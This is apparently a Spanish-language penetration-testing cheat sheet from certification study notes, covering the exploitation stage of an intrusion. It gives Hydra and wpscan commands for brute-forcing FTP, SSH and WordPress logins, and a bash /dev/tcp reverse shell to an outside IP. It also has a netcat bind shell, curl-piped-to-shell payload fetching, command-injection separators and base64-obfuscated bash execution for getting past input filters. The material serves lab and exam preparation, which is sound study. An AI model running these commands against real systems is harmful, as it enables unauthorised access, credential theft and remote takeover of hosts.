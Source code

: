 ## Explotación
### Indice
- [FTP (Hydra Fuerza bruta)](#exftp)
- [SSH (Hydra Fuerza bruta)](#exssh)
- [HTTP SSL](#exssl)
- [Wordpress Credentials (XMRPC abusing)](#exwp)
- [Reverse Shell](#shell)
- [Experiencias con Reverse Shell](#exshell)
- [Inyeccion comandos Web](#inyeccion_comandos)
 <a name="exftp"></a>
### FTP
 
Fuerza bruta: ``` hydra -l user -P passwords.txt ftp://172.17.0.2```

 * Con -l le especificamos un usuario, con -L le especificamos un diccionario de usuarios. igual para la contraseña
 
Si aparece la version, se podría mirar algun exploit.
 
<a name="exssh"></a>
 ### SSH
 Fuerza bruta: ``` hydra -l user -P passwords.txt ssh://172.17.0.2 -s 2222```

 <a name="exssl"></a>
## HTTPS SSL
  
 Ver vulnerabilidades en certificados SSL:
 ```sslscan google.com:443```  
 algunas maquinas son vulnerables a Heartbleed, lo que consigue hacer un dump de la memoria en la que podemos llegar a encontrar claves privadas, nombres de usuario, contraseñas...

<a name="exwp"></a>
 ## Wordpress
 
Credenciales por fuerza bruta abusando de xmlrpc
 ```
 wpscan --url <ip> -U <usuario encontrado> -P /ruta/al/rockyou.txt
 ```

 ## Reverse, Bind, Forward Shells
 
 Suponiendo que conseguimos realizar ejecución remota de comandos, podriamos tratar de enviarnos una shell interactiva desde la cual movernos por el sistema atacado. Tenemos 3 tipos:
 <a name="shell"></a>
 ### Reverse shell
 La víctima nos envía una shell interactiva a nosotros, que estremos a la escucha con netcat. En [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) tenemos diferentes maneras de ejecutar la shell remota según los recursos que dispongamos. Solamente deberíamos estar a la escucha con netcat de la siguiente manera:
 ```
 nc -nlvp 443
 ```
 ### Bind shell
 La conexión es igual que la anterior solo que de manera inversa. en este caso el atacante es el que está a la escucha pero ofreciendo una bash, para ello:
 ```
 Victima: nc -nlvp 443 -e /bin/bash
 Atacante: nc <ip> <puerto>
 ```
 
 ### Forward Shell
 Es una manera de evitar las restricciones que pudieramos tener a la hora de establecer una conexión, por ejemplo si a través de fiewall nos capasen los puertos. La consola no es 100% interactiva pero se puede simular.
 
 Para ello necesitamos poder subir archivos, y subiriamos el php reverse shell de pentestmonkey. y nos descargamos el siguiente ejecutable: [TTYoverHTTP](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py) 
 la manera de proceder es la siguiente:
 ```
 1. subir el fichero cmd.php (o como le queramos llamar)
 2. Editar si fuera necesario el ttyoverhttp, con la ruta y el nombre del fichero para decirle donde se ubica el php reverse shell
 3. Ejecutar tty_over_http.py
 ```


 <a name="inyeccion_comandos"></a>
 <a name="exshell"></a>
### Experiencias con Reverse Shell  

#### Si no deja introducir espacios en blanco, lo mejor es: 
1º Crear un fichero .sh que contenga el código de la reverse shell  
```
bash -c 'bash -i >& /dev/tcp/10.10.14.54/443 0>&1'
```
2º Montar un servidor web para ofrecer el fichero  
```
python3 -m http.server 80
```
3º En la parte donde podamos inyectar el comando:
```
curl${IFS}<IP>/shell.sh|sh
o
curl${IFS}<IP>/shell.sh|bash

${IFS} sería el espacio en bash
```
### Inyección de comandos WEB  

hay varias maneras de inyectar comandos, por ejemplo en burpsuite. Si identificamos un campo, lugar donde creemos que se pueda inyectar comandos, aquí se listan varias opciones para hacerlo.  
```
$(comando)
;comando
;comando;
;comando;#

No todos los comandos funcionan, probar con: id, whoami, ps, ls ...
```

Si no nos permite espacios:  
```
Cambiamos el espacio por ${IFS} ejemplo:
echo${IFS}hola${IFS}mundo
```

Conversión a base64 (para evitar el error con caracteres no permitidos, como el &)
```
# Bash B64 Ofuscated
{echo,COMMAND_BASE64}|{base64,-d}|bash 
echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i} 
echo COMMAND_BASE64 | base64 -d | bash 
```
<a href="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/tree/main"> Menú Principal</a>
